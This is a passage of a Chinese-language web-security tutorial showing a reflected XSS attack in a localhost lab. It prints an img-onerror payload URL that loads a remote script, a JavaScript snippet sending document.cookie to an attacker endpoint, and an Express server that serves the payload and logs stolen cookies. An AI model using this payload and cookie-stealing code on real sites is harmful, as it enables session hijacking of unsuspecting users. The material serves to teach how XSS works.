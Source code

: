 我们可以看见，这里真实的 url 为刚才那个防御薄弱的网站。

如果取消 escape，我们可以看见链接是这样的：

`http://localhost:8081/result?q=<img src=null onerror="var script = document.createElement('script');       script.src = 'http:\/\/localhost:8082/danger';body.appendChild(script);" />`

也就是说，当你进入这个页面的时候，就执行了位于 `localhost:8082/danger` 的脚本。

那么问题来了，为什么要走 img，而不是直接调用 script 标签？

因为使用 innerHTML 的时候，无法动态添加 script 标签并执行。

因此，我们的客户端对 XSS 攻击稍微有一点抗性的嘛...

### 攻击者的攻击脚本

一般来说，就是获取 cookie 并且发送到后台。

但其实能做的事情多了。这里就不一一列举了。

```javascript
// 原生 AJAX 方法
var xhr = new XMLHttpRequest();
xhr.open('get', `http://localhost:8082/attack?q=${document.cookie}`, true);
xhr.send();
xhr.onreadystatechange = function () {
  if (xhr.readyState === 4 && xhr.status === 200) {
    /**
     * 傻逼才会在这里显示攻击成功
     * 我这仅仅出于说明的目的
     */
    console.log('攻击成功！');
  }
}
```

### 攻击者的服务器

然后我们起一个攻击者的服务器，用来处理用户发送的数据。

攻击者的服务器很简单，就是接收请求，然后读取 query string 里面的 cookie 信息。

```javascript
const express = require("express");
const path = require('path');
const app = express();

app.use(express.static("./attack.js"));

app.get("/danger", (req, res) => {
  res.sendFile(path.join(__dirname, './attack.js'));
});

app.get("/attack", (req, res) => {
  // 从 query string 上拿到被攻击者的 cookie
  const { q } = req.query;
  console.log(q);
  res.status(204).end();
});

app.listen(8082, () => console.log("Attacker running on port 8082"));
```
